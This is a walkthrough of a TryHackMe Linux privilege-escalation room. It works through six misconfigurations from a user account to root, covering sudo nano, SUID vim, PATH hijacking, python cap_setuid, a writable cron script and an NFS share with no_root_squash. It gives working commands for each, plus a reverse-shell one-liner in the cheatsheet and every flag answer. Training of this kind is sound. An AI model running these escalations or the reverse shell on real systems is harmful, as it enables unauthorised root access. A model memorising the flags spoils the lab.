

# Room Documentation: Linux Privilege Escalation: Basics

---

## 1. Room Metadata & Overview

* **Learning Path:** Jr Penetration Tester
* **Module:** Module 13 — Privilege Escalation (`13-PRIVILEGE-ESCALATION`)
* **Room Name:** Linux Privilege Escalation: Basics
* **Room Slug:** `linprivbasics`
* **Direct URL:** [TryHackMe Linux Privilege Escalation: Basics](https://tryhackme.com/room/linprivbasics)
* **Difficulty Level:** Medium
* **Room Type:** Walkthrough & Hands-on Exploitation Lab
* **Assessment Scenario:** Practical exploitation of six foundational Linux privilege escalation vectors from an initial user foothold (`john`) to full `root` compromise
* **Total Tasks:** 8 Tasks
* **Total Questions:** 15 Questions (100% Solved and Verified)

---

## 2. Executive Summary

The **Linux Privilege Escalation: Basics** room forms the operational core of Linux host compromise within the Jr Penetration Tester curriculum. Progressing directly from manual reconnaissance, this room transitions the operator into the **Practical Exploitation Phase**, demonstrating how administrative misconfigurations, insecure delegations, and weak permissions are weaponized to achieve interactive root shells (`UID 0`).

Across dedicated laboratory environments, the room explores six high-impact escalation vectors:
1. **Sudo Delegation Abuse:** Abusing interactive utilities (`/usr/bin/nano`) permitted via `sudoers` without password requirements (`NOPASSWD`), escaping into a root shell to retrieve `/root/flag.txt` (`THM{SUDO-pwned-priv-esc}`).
2. **SUID Binary Exploitation:** Exploiting an anomalous Set User ID bit on `/usr/bin/vim.basic` to execute commands with effective root privileges (`THM{root-by-SUID-vulns}`).
3. **PATH Environment Hijacking:** Discovering a custom SUID executable (`/opt/path/mywhoami`) that invokes `whoami` via relative lookup, prepending `/tmp` to `$PATH` to achieve root execution (`THM{PATH-and-SUID-leadtoroot}`).
4. **POSIX Capabilities Abuse:** Auditing extended filesystem attributes to identify `/usr/bin/python3.12` carrying `cap_setuid+ep`, using an inline Python one-liner to set UID to 0 (`THM{caps_getting_r00T}`).
5. **Cron Scheduled Automation:** Discovering a root cron job in `/etc/cron.d/cleanup` executing a world-writable script (`/opt/cleanup.sh` at `0777`), injecting arbitrary payload commands to harvest `/root/flag.txt` (`THM{g0t-r00t-from-cr0n}`).
6. **Network File Sharing (NFS) Misconfiguration:** Identifying an NFS export (`/opt/nfs`) configured with `no_root_squash` in `/etc/exports`, mounting the share from a remote attacking workstation as root, compiling an SUID C wrapper, and executing it on the target as `john` to gain instant root (`THM{exports-r00T-nfs}`).

---

## 3. Architectural & Attack Vector Flow

The diagram below maps the six distinct escalation vectors and their execution mechanics:



---

## 4. Theoretical Foundations & Core Concepts

### Process Security & Effective Privileges:
* **Discretionary Access Control (DAC):** File access checks are performed against the process's **Effective UID (EUID)**.
* **The Root Compromise Threshold:** Moving from EUID 1000 to EUID 0 invalidates standard Linux filesystem protections, allowing arbitrary modifications to `/etc/shadow`, `/etc/sudoers`, and kernel parameters in `/proc/sys/`.

### Configuration Faults vs. Software Exploits:
* None of the six vectors rely on unpatched software or memory corruption.
* Each vulnerability exists because an administrator configured the system insecurely—making these escalation vectors 100% reliable across all Linux distributions.

---

## 5. Vector 1: Sudo Delegation Abuse

* **Discovery:** Execute `sudo -l` to review user execution authorizations.
* **Vulnerable Configuration:** User `john` may execute `/usr/bin/nano` as root with `NOPASSWD`.
* **Exploitation Walkthrough:**
  1. Open `/root/flag.txt` directly inside nano:
     ```bash
     sudo /usr/bin/nano /root/flag.txt
     ```
  2. Escape to an unconstrained root shell:
     - Inside nano, press `Ctrl+R` followed by `Ctrl+X`.
     - Enter execution command: `reset; sh 1>&0 2>&0`
     - Press `Enter` to drop into a root prompt.

---

## 6. Vector 2: SUID Binary Exploitation

* **Discovery:** Search for SUID binaries using:
  ```bash
  find / -type f -perm -04000 -ls 2>/dev/null
  ```
* **Vulnerable Binary:** `/usr/bin/vim.basic` carried the SUID bit (`-rwsr-xr-x 1 root root`).
* **Exploitation Walkthrough:**
  ```bash
  # Direct file viewing:
  /usr/bin/vim.basic /root/flag.txt

  # Shell spawn via internal Python interpreter:
  /usr/bin/vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  ```

---

## 7. Vector 3: PATH Environment Hijacking

* **Discovery:** Locate custom SUID binaries outside `/usr/bin/`:
  ```bash
  find / -perm -u=s -type f 2>/dev/null | grep -v "/usr"
  # Output: /opt/path/mywhoami
  ```
* **Binary Inspection:**
  ```bash
  strings /opt/path/mywhoami | grep whoami
  ```
  The binary invokes `system("whoami")` without an absolute path.
* **Exploitation Walkthrough:**
  ```bash
  # 1. Create malicious whoami payload in /tmp
  echo '#!/bin/bash' > /tmp/whoami
  echo 'cat /root/flag.txt > /tmp/flag.txt && chmod 777 /tmp/flag.txt' >> /tmp/whoami
  chmod +x /tmp/whoami

  # 2. Prepend /tmp to current PATH
  export PATH=/tmp:$PATH

  # 3. Trigger the SUID wrapper
  /opt/path/mywhoami
  ```

---

## 8. Vector 4: Linux Capabilities (`cap_setuid`)

* **Discovery:** Query file capability extended attributes:
  ```bash
  getcap -r / 2>/dev/null
  ```
* **Findings:** Exactly 6 binaries possess capabilities, with `/usr/bin/python3.12` granted `cap_setuid+ep`.
* **Exploitation Walkthrough:**
  ```bash
  /usr/bin/python3.12 -c 'import os; os.setuid(0); os.system("/bin/bash")'
  # Shell immediately elevates to root:
  cat /root/flag.txt
  ```

---

## 9. Vector 5: Cron Scheduled Jobs

* **Discovery:** Inspect modular cron configuration files:
  ```bash
  cat /etc/cron.d/cleanup
  # Output: * * * * * root /opt/cleanup.sh
  ```
* **Permission Audit:** Check permissions on the executed script:
  ```bash
  ls -la /opt/cleanup.sh
  # Output: -rwxrwxrwx 1 root root 45 /opt/cleanup.sh (0777)
  ```
* **Exploitation Walkthrough:**
  ```bash
  echo 'cat /root/flag.txt > /tmp/flag.txt && chmod 777 /tmp/flag.txt' >> /opt/cleanup.sh
  # Wait 60 seconds for cron execution:
  cat /tmp/flag.txt
  ```

---

## 10. Vector 6: Insecure NFS Exports (`no_root_squash`)

* **Discovery:** Inspect NFS export rules on the target host:
  ```bash
  cat /etc/exports
  # Output: /opt/nfs *(rw,sync,no_root_squash,no_subtree_check)
  ```
* **Vulnerability Analysis:** `no_root_squash` preserves client UID 0 over RPC calls.
* **Exploitation Walkthrough (from Attacker Workstation as Root):**
  ```bash
  # 1. Mount remote NFS share
  mkdir /tmp/nfs_mount
  mount -o rw 10.10.x.x:/opt/nfs /tmp/nfs_mount

  # 2. Compile SUID root binary directly on the share
  cat << 'EOF' > /tmp/nfs_mount/shell.c
  #include <stdio.h>
  #include <stdlib.h>
  #include <unistd.h>
  int main() {
      setuid(0); setgid(0);
      system("/bin/bash -p");
      return 0;
  }
  EOF
  gcc /tmp/nfs_mount/shell.c -o /tmp/nfs_mount/root_shell -w
  chmod +s /tmp/nfs_mount/root_shell

  # 3. On target host as john, execute the binary:
  cd /opt/nfs && ./root_shell
  ```

---

## 11. Task-by-Task Solutions & Breakdown

### Task 01: Introduction
* **Answer:** `No answer needed`

### Task 02: Privilege Escalation: Sudo
* **Question 1:** What is the full path of the program that john can run with sudo?
  * **Answer:** `/usr/bin/nano`
* **Question 2:** What are the contents of /root/flag.txt?
  * **Answer:** `THM{SUDO-pwned-priv-esc}`

### Task 03: Privilege Escalation: SUID
* **Question 1:** What is the full path of the binary in /usr/bin/ that is vulnerable to a SUID exploitation?
  * **Answer:** `/usr/bin/vim.basic`
* **Question 2:** What are the contents of the flag found in /root/?
  * **Answer:** `THM{root-by-SUID-vulns}`

### Task 04: Privilege Escalation: PATH
* **Question 1:** Find a custom SUID binary on the target host... What is the full path of this binary?
  * **Answer:** `/opt/path/mywhoami`
* **Question 2:** Run the strings command on the SUID binary. What binary does it call from path?
  * **Answer:** `whoami`
* **Question 3:** What are the contents of /root/flag.txt?
  * **Answer:** `THM{PATH-and-SUID-leadtoroot}`

### Task 05: Privilege Escalation: Capabilities
* **Question 1:** How many binaries have set capabilities?
  * **Answer:** `6`
* **Question 2:** What is the full path of the binary that can be used to gain root through its capabilities?
  * **Answer:** `/usr/bin/python3.12`
* **Question 3:** What are the contents of /root/flag.txt?
  * **Answer:** `THM{caps_getting_r00T}`

### Task 06: Privilege Escalation: Cron Jobs
* **Question 1:** What is the full path of the cron job that can be exploited?
  * **Answer:** `/etc/cron.d/cleanup`
* **Question 2:** What are the contents of /root/flag.txt?
  * **Answer:** `THM{g0t-r00t-from-cr0n}`

### Task 07: Privilege Escalation: NFS
* **Question 1:** What is the full path of the mountable share?
  * **Answer:** `/opt/nfs`
* **Question 2:** What are the contents of /root/flag.txt?
  * **Answer:** `THM{exports-r00T-nfs}`

### Task 08: Conclusion
* **Answer:** `No answer needed`

---

## 12. Operational Security & Best Practices

* **Surgical Execution:** Configuration exploitation leaves very small forensic footprints compared to memory exploits or uncompiled payload scripts dropped across disks.
* **Payload Cleanup:** When creating temporary scripts in `/tmp` or altering cron jobs, always document changes and restore original permissions to maintain testing integrity.

---

## 13. Defensive Engineering & Hardening

1. **Restrict Sudo Privileges:** Never delegate interactive text editors or interpreters (`nano`, `vim`, `python`) in `sudoers`. Use `NOEXEC` where feasible.
2. **Strip Inappropriate SUID Bits:** Regularly audit systems with `find / -perm -4000` and remove SUID bits from non-essential utilities (`chmod u-s /usr/bin/vim.basic`).
3. **Use Absolute Paths:** All custom scripts and internal utilities must call system binaries using absolute paths (`/usr/bin/whoami`).
4. **Audit Capabilities:** Review assigned capabilities with `getcap -r /` and ensure interpreters are never granted `cap_setuid`.
5. **Secure Scheduled Tasks:** Set permissions on `/etc/crontab`, `/etc/cron.*`, and referenced scripts strictly to `0700` owned by `root:root`.
6. **Enforce `root_squash` on NFS:** Ensure all `/etc/exports` entries specify `root_squash` (the default) to prevent client UID 0 inheritance.

---

## 14. Cheatsheet & Next Steps

| Vector | Enumeration Command | Rapid Exploitation Syntax |
| :--- | :--- | :--- |
| **Sudo** | `sudo -l` | `sudo nano` ⟶ `^R ^X` ⟶ `reset; sh 1>&0 2>&0` |
| **SUID** | `find / -perm -4000 -type f 2>/dev/null` | `vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh","sh")'` |
| **PATH** | `strings <binary>` | `echo "/bin/bash -p" > /tmp/cmd && export PATH=/tmp:$PATH` |
| **Capabilities** | `getcap -r / 2>/dev/null` | `python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'` |
| **Cron** | `cat /etc/crontab /etc/cron.d/*` | `echo "bash -i >& /dev/tcp/IP/PORT 0>&1" >> /writable/script.sh` |
| **NFS** | `cat /etc/exports` | Mount share remotely, drop SUID binary, execute on target |

### Next Room in Module 13:
Advance to Room 04:
**`04-LINUX-PRIVILEGE-ESCALATION-AUTOMATION`** to master automated reconnaissance suites (LinPEAS, LinEnum, Linux Exploit Suggester) and public kernel vulnerability exploitation.
